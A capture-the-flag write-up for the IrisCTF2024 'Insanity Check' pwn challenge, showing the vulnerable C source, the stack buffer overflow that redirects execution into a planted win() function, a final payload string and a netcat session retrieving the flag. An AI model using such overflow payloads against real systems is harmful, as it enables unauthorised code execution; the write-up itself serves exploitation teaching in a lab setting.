


# Insanity Check (PWN)

The challenge contains source code of the binary file.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
}
```
We can see that the binary file contains a bug:
```c
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
```

The `win` function is located in `.flag` section with the body `__asm__("pop %rdi");` instruction a sort of ROP gadget. So we need to find the offset to call `win` function.


We can start with debugging process and fuzzing so that we can have the offset to call win function.



Now here we can see that the $rip is overwritten with invalid address from 50 offset. Adding 4 bytes the ".com" hex will be loaded in \$rip. 

VERIFYING THE OFFSET: 



"2e636f6d" is the hex value of ".com" string and an address of the `win` function, as you can see $rip values 0x6d6f which is from ".com" hex.

Final payload:
`aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga000000`

```
└─$ nc insanity-check.chal.irisc.tf 10003
== proof-of-work: disabled ==
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga000000
irisctf{c0nv3n13nt_symb0l_pl4cem3nt}

```